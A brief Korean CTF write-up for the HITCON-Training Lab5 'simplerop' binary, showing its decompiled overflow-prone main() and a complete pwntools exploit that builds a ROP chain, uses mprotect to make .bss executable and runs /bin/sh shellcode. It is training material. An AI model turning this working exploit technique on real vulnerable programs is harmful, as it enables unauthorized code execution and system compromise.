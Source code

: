 ```yaml
---
title: "[HITCON-Training]Lab5"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


statically linked, not stripped된 파일이고 ROP문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]
 
  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

mprotect함수로 원하는 주소에 권한을 부여하고 shellcode를 넣고 실행해주면 된다.

```python
from pwn import *
 
context.arch = 'i386'
 
e = ELF('./simplerop')
p = process('./simplerop')
r = ROP(e)
 
mprotect = e.symbols['mprotect']
bss = 0x080EB000
shellcode = asm(shellcraft.i386.sh())
print shellcode
 
pay = 'A'*(0x1c+4)
r.read(0,bss,0x100)
r.mprotect(bss,0x2000,0x7)
r.raw(bss)
pay += r.chain()
 
p.sendlineafter(':',pay)

p.sendline(shellcode)
 
p.interactive()
```

